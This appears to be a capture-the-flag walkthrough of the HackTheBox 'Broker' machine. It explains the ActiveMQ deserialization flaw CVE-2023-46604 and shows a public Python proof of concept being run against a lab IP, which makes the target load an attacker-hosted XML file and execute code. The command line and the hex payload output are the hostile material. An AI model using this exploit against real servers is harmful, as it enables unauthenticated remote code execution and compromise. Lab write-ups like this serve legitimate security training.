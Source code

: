 ### Identify Vulnerability

This box has been released on HackTheBox directly to retired as a chance to show off a newsworthy vulnerability, [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) in ActiveMQ. Searching for “ActiveMQ vulnerability” will turn up all sorts of articles about ransomware crews using this attack to own ActiveMQ servers:

![image-20231108132709461](/img/image-20231108132709461.png)
[![expand](/icons/expand.png)](javascript:void(0) "Click to expand for full content")

The vulnerability is very easy to exploit and unauthenticated, getting the very rare top CVSS score of 10.0. ActiveMQ has a bunch of different versions, but in the 5.15 group, anything before 5.15.16 is vulnerable (including Broker’s 5.15.15).

### Understand Exploit

evkl1d has a [Python POC](https://github.com/evkl1d/CVE-2023-46604) on GitHub that’s useful for both understanding the vulnerability and exploiting it.

The Python code takes a target IP, port (default 61616), and “Spring XML Url”. It builds a payload which looks like a serialized object, as it starts with a header, then a series of objects that start with their length and then their value. It converts to hex, and send this as a message to ActiveMQ port.

The payload is exploiting a deserialization vulnerability in ActiveMQ, and using a gadget from the Spring to load a remote XML file, which has the ability to run programs.

For a much more detailed look at the exploit, [this medium post](https://deepkondah.medium.com/unpacking-the-apache-activemq-exploit-cve-2023-46604-92ed1c125b53) does a nice job, and pulls from original research from X1r0z ([here](https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/?ref=deep-kondah.com) in Chinese).

### Run POC

To run the POC, I can start with a Python webserver and run the Python script:

```

oxdf@hacky$ python exploit.py -i 10.10.11.243 -u http://10.10.14.6/test.xml
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.14.6/poc.xml

[*] Sending packet: 0000006c1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010019687474703a2f2f31302e31302e31342e362f706f632e786d6c

```
